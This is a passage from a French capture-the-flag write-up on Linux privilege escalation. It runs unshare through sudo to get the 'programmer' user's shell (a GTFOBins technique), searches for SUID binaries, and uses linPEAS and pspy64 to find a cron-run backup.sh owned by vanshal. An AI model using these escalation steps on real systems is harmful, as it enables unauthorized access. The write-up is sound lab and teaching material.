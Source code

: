 Après avoir fait un tour sur [GTFOBins](https://gtfobins.github.io/gtfobins/unshare/#sudo) on voit qu'un peut obtenir un shell via cette commande. Dans notre cas on peut l'exécuter en tant que **programmer** donc :

```bash
sudo -u programmer /usr/bin/unshare /bin/bash
```

Nous sommes donc maintenant **programmer**

```bash
id
uid=1182(programmer) gid=1184(prome) groups=1184(prome) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

J'ai également tenté de regarder s'il y avait un script ou un binaire avec les droits SUID avec cette commande :

```bash
find / -perm -4000 2>/dev/null
```

Mais aucun résultat positif.

J'ai également lancé [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) pour voir s'il y avait une possibilité d'escalation de privilèges. Et là quelque chose d'intéressant est apparu :

```
[+] Modified interesting files in the last 5mins (limit 100)
/var/log/cron
/var/log/maillog
/var/log/messages
/var/log/secure
/var/spool/mail/vanshal
/media/programmer/scripts/backup.sh
```

La dernière ligne parait suspecte. Cependant rien n'a été relevé au niveau des cron jobs.

On sait qu'il a été modifié au moins une fois dans les 5 dernières minutes selon **linPEAS**.                                                                     
Pour en savoir plus on peut utiliser **pspy64** qui permet de visualiser les processus du système en temps réel. Après l'avoir lancé et attendu quelques minutes on obtient cette ligne :

```bash
2020/07/06 17:21:01 CMD: UID=1183 PID=22096  | /bin/bash /media/programmer/scripts/backup.sh
```

On sait donc que ce script est lancé toutes les minutes par l'utilisateur ayant l'id **1183**. Pour savoir quel est l'utilisateur correspondant il nous suffit de le chercher dans le fichier ``/etc/passwd`` :

```bash
cat /etc/passwd | grep 1183
```

Il s'agit de **vanshal**

```bash
vanshal:x:1183:1184::/home/vanshal:/bin/bash
```

